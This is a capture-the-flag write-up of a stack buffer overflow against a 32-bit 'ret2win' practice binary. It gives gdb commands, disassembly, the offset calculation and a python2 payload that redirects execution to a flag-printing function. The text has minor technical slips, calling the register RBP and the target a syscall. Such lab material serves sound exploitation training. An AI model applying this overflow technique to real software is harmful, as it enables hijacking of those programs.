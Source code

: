 ### ret2win x86
Run the binary will see following message.

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

It also tells us that there is a function named ret2win and will cat the flag.txt. Therefore,  we only need to overwrite the return address to the address of the syscall in ret2win function.
Use gdb to gather information.
```
gdb ./ret2win32
```
Check the security of ret2win32.
```
gdb$ checksec

```
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
No canary, no pie.
List all functions.
```
gdb$ info functions
```
```
...
0x08048546  main
0x080485ad  pwnme
0x0804862c  ret2win
...
```
There is indeed a function called ret2win.

Disassembly ret2win to obtain the return address.
```
gdb$ disas ret2win 
```
```
...
0x08048645 <+25>:    push   0x8048813
0x0804864a <+30>:    call   0x80483e0 <system@plt>
...
```
The address of the syscall is 0x08048645.

Overflow length will be 32 bytes(buffer) + 4 bytes (RBP) = 36 bytes.

Therefore, the overflow strings will be:
```
A'*36+'\x45\x86\x04\x08'
```
Run the program with overflow strings:
```
python2 -c "print 'A'*36+'\x45\x86\x04\x08'" | ./ret2win32
```
It will get wrong answer, so we need to find correct overflow length.

Disassambly pwnme function.
```
gdb$ pwnme
```
```
...
0x08048611 <+100>:   call   0x80483b0 <read@plt>
0x08048616 <+105>:   add    esp,0x10
0x08048619 <+108>:   sub    esp,0xc
0x0804861c <+111>:   push   0x80487eb
0x08048621 <+116>:   call   0x80483d0 <puts@plt>
0x08048626 <+121>:   add    esp,0x10
0x08048629 <+124>:   nop
0x0804862a <+125>:   leave
0x0804862b <+126>:   ret

```
Set the breakpoints right after read call and return.
```
gdb$ b * 0x08048616
gdb$ b * 0x0804862b
```
Run the program.
```
gdb$ r
```
Input some characters, such as aaaaaaaaa.
```
>aaaaaaaaaa
```
Process will pause at breakpoint 1, and we can see the buffer's starting address in stack.
```
...
0008| 0xffffd4d8 --> 0x38 ('8')
0012| 0xffffd4dc --> 0x4
0016| 0xffffd4e0 ('a' <repeats 17 times>, "\n")
...
```
We run the process continuely, and we will see the return address in stack.
```
gdb$ c
```
```
0000| 0xffffd50c --> 0x8048590 (<main+74>:      sub    esp,0xc)
...
```
Now, we know the overflow length is 0xffffd50c - 0xffffd4e0 = 0x2c = 44.

Therefore, the overflow strings will be:
```
A'*44+'\x45\x86\x04\x08'
```
Run the program with overflow strings:
```
python2 -c "print 'A'*44+'\x45\x86\x04\x08'" | ./ret2win32
```
It will show the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
Another way is using ghidra to see the reverse code, will found that the buffer used to read input is infact 0x28 not 0x20. Therefore, the overflow length will be 40 bytes(buffer) + 4 bytes (RBP) = 44 bytes.
